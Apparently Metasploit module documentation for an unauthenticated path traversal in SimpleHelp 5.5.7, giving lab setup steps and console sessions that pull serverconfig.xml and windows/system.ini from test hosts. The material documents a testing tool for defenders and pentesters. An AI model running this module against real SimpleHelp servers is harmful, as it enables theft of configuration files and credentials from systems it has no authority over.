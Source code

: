 ## Vulnerable Application
There exists a path traversal vulnerability in the /toolbox-resource endpoint of SimpleHelp that enables unauthenticated
remote attackers to download arbitrary files from the SimpleHelp server via crafted HTTP requests

### Setup

On Ubuntu 22.04 download a vulnerable version of SimpleHelp, for this demo we will use 5.5.7:
`wget https://simple-help.com/releases/5.5.7/SimpleHelp-linux-amd64.tar.gz`

Unzip the application:
```
cd /opt
tar -xvf SimpleHelp-linux-amd64.tar.gz
```

Start the server:
```
cd SimpleHelp
sudo sh serverstart.sh
```

Navigate to the Web App GUI at: `http://127.0.0.1` (by default the application should be listening on all interfaces).
You should see "Welcome to your new SimpleHelp Server".
Select "Start New Server". The application should now be vulnerable to the path traversal.

## Verification Steps

1. Start msfconsole
1. Do: `use simplehelp_toolbox_path_traversal`
1. Set the `RHOST`
1. Run the module
1. Receive the file `serverconfig.xml` from the SimpleHelp

## Scenarios
### SimpleHelp 5.5.7 running on Ubuntu 22.04
```
msf6 exploit(windows/local/cve_2024_35250_ks_driver) > use simplehelp_toolbox_path_traversal

Matching Modules
================

   #  Name                                                      Disclosure Date  Rank    Check  Description
   -  ----                                                      ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/simplehelp_toolbox_path_traversal  2025-01-12       normal  No     Simple Help Path Traversal Vulnerability


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/http/simplehelp_toolbox_path_traversal

[*] Using auxiliary/scanner/http/simplehelp_toolbox_path_traversal
msf6 auxiliary(scanner/http/simplehelp_toolbox_path_traversal) > set rhost 172.16.199.130
rhost => 172.16.199.130
msf6 auxiliary(scanner/http/simplehelp_toolbox_path_traversal) > run
[*] Reloading module...
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: 5.5.7
[+] Downloaded 5233 bytes
[+] File saved in: /Users/jheysel/.msf4/loot/20250220163655_default_172.16.199.130_simplehelp.trave_035651.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### SimpleHelp 5.5.7 running on Windows 11
```
msf6 auxiliary(scanner/http/simplehelp_toolbox_path_traversal) > set rhosts 172.16.199.131
rhosts => 172.16.199.131
msf6 auxiliary(scanner/http/simplehelp_toolbox_path_traversal) > set filepath windows/system.ini
filepath => windows/system.ini
msf6 auxiliary(scanner/http/simplehelp_toolbox_path_traversal) > set depth 4
depth => 4
msf6 auxiliary(scanner/http/simplehelp_toolbox_path_traversal) > run
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: 5.5.7
[+] Downloaded 219 bytes
[+] File saved in: /Users/jheysel/.msf4/loot/20250221075039_default_172.16.199.131_simplehelp.trave_820456.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/simplehelp_toolbox_path_traversal) > cat /Users/jheysel/.msf4/loot/20250221075039_default_172.16.199.131_simplehelp.trave_820456.txt
[*] exec: cat /Users/jheysel/.msf4/loot/20250221075039_default_172.16.199.131_simplehelp.trave_820456.txt

; for 16-bit app support
[386Enh]
woafont=dosapp.fon
EGA80WOA.FON=EGA80WOA.FON
EGA40WOA.FON=EGA40WOA.FON
CGA80WOA.FON=CGA80WOA.FON
CGA40WOA.FON=CGA40WOA.FON

[drivers]
wave=mmdrv.dll
timer=timer.drv

[mci]
```
